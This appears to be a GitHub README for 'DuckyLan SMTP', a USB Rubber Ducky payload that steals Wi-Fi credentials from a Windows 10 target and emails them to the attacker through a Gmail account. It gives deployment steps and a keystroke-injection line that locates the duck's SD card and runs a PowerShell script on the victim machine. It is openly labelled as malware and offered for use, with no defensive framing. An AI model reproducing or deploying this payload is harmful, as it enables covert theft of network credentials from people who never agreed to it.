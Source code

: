 # DuckyLan SMTP 
> Blue Cosmo

---

```
________                 __           .____                   
\______ \  __ __   ____ |  | _____.__.|    |   _____    ____  
 |    |  \|  |  \_/ ___\|  |/ <   |  ||    |   \__  \  /    \ 
 |    `   \  |  /\  \___|    < \___  ||    |___ / __ \|   |  \
/_______  /____/  \___  >__|_ \/ ____||_______ (____  /___|  /
        \/            \/     \/\/             \/    \/     \/
```

## Overview:
A USB RubberDucky payload that steals Wi-Fi credentials and sends them to the attacker via STMP.

## Resources:
- [YouTube Video]()
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- [Twin-Duck firmware](https://www.youtube.com/watch?v=BzYH-BPHLpE)
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *p.ps1*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. in line 15 of *payload.txt*, change 'W' to the name of your ducky [SD Card]
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'W'}|select name;cd $u.name;./p.ps1;exit
```
3. flash Twin-Duck firmware on to your duck
    - [Tutorial](https://www.youtube.com/watch?v=BzYH-BPHLpE)
4. load, encode, and deploy!!

---

- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)

#projects #malware 